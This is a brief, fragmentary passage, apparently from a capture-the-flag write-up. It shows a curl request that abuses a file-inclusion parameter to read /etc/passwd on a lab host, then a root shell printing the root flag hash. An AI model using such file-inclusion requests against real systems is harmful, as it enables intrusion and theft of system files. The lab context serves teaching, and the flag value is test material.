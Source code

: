```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```

\-rw-r--r-- 1 root root 148 Aug 17 2015 .profile

### Root Flag

root\@ubuntu:/root\# cat root.txt

cat root.txt

b2b17036da1de94cfb024540a8e7075a
